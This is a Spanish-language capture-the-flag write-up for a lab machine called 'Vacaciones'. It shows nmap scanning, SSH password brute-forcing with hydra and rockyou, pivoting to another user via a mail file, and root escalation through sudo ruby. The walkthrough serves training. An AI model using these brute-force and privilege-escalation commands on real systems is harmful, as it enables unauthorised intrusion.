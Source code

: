# MÁQUINA VACACIONES

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto.jpg)

Vemos que esta abierto el puerto 80 por lo que vamos a ver que hay en la página web. A primera vista vemos que no hay nada, sin embargo si vemos el código fuente encontramos algo:

![WEB](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto2.jpg)

Vemos que tenemos 2 posibles usuarios, Juan y Camilo, por lo que vamos a intentar obtener la contraseña de uno de ellos usando fuerz bruta:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![CAM](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto3.jpg)

Hemos encontrado la contraseña del usuario camilo, por lo que vamos a acceder a la máquina a través de SSH:

![IN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto4.jpg)

Ya estamos dentro, ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Si recordamos juan le había dejado un correo a camilo, por lo que vamos a ver si lo encontramos. Y ahí esta, en la carpeta /var/mail/camilo/

![MAIL](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto5.jpg)

Nos convertimos en juan con el comando su juan:

![JUAN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto6.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar ruby como cualquier usuario y sin contraseña, asi que vamos a aprovecharnos de esto para escalar privilegios.

Para ello iremos a la página de GTFOBins y ejeuctaremos lo que nos dice:

https://gtfobins.github.io/gtfobins/ruby/#sudo

```shell
sudo ruby -e 'exec "/bin/sh"'
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto7.jpg)

Y ya somos root!


